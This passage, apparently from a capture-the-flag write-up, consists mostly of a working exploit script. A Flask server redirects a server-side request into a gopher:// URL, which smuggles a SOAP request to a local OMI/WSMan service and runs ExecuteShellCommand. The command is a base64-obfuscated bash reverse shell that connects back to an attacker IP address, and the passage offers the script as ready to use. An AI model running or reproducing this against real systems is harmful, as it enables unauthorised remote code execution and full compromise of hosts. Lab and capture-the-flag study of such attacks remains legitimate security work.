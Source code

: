 
We can use the `gopher` protocol. To make it short, here is the most updated and working `exploit`.   

```python
from flask import Flask, redirect
from urllib.parse import quote

app = Flask(__name__)

DATA = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
   <s:Header>
      <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
      <w:ResourceURI s:mustUnderstand="true">http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem</w:ResourceURI>
      <a:ReplyTo>
         <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
      </a:ReplyTo>
      <a:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</a:Action>
      <w:MaxEnvelopeSize s:mustUnderstand="true">102400</w:MaxEnvelopeSize>
      <a:MessageID>uuid:0AB58087-C2C3-0005-0000-000000010000</a:MessageID>
      <w:OperationTimeout>PT1M30S</w:OperationTimeout>
      <w:Locale xml:lang="en-us" s:mustUnderstand="false" />
      <p:DataLocale xml:lang="en-us" s:mustUnderstand="false" />
      <w:OptionSet s:mustUnderstand="true" />
      <w:SelectorSet>
         <w:Selector Name="__cimnamespace">root/scx</w:Selector>
      </w:SelectorSet>
   </s:Header>
   <s:Body>
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         <p:command>{}</p:command>
         <p:timeout>0</p:timeout>
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>
"""

REQUEST = """POST / HTTP/1.1\r
Host: localhost:5985\r
User-Agent: curl/7.74.0\r
Content-Length: {length}\r
Content-Type: application/soap+xml;charset=UTF-8\r
\r
{body}"""

@app.route('/')
def root():
    cmd = "echo 'YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi43LzQ0NDUgMD4mMSIK' | base64 -d | bash"
    data = DATA.format(cmd)
    req = REQUEST.format(length=len(data)+2, body=data)
    enc_req = quote(req, safe='')
    return redirect(f'gopher://127.0.0.1:5985/_{enc_req}', code=301)

if __name__ == "__main__":
    app.run(ssl_context='adhoc', debug=True, host="10.10.16.7", port=4444)
```
